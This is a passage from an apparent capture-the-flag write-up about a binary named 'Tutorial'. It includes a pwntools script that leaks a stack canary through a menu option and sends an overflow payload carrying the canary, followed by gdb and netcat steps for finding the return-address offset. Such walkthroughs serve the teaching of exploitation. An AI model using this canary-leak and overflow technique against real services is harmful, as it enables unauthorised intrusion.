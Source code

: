 ```
#Import pwntools
from pwn import *

#Setup the remote connection
target = remote('127.0.0.1', 55555)

#Select the second option and send a newline character
print target.recvuntil("Quit")
target.sendline("2")
print target.recvuntil(">")
print target.recvline()
target.sendline("")
print target.recvline()

#Store the output
can = target.recvline()

#Filter out the stack canary (there are additional bytes around the canary we need to filter out) 
can = can.replace("-Tutorial-", "")
can = can.replace("\x00", "")
can = can[:7]
can = "\x00" + can
print len(can)

#Convert the canary to a human readable format and print them
read_can = hex(unpack(can, 64, endian='little', sign=False))
print read_can

#Select the second option again
print target.recvuntil("Quit")
target.sendline("2")
print target.recvuntil(">")
print target.recvline()

#Construct the payload and send it
payload = "0"*312 + can
target.sendline(payload)

#Drop to an interactive console
target.interactive()
```

Next we will find the offset between the start of our input, and the rip register which can be done in gdb:
gdb:
```
gdb-peda$ b *0x400f69
Breakpoint 1 at 0x400f69
gdb-peda$ r 44867
```

client:
```
nc 127.0.0.1 44868
-Tutorial-
1.Manual
2.Practice
3.Quit
>2
Time to test your exploit...
>
```

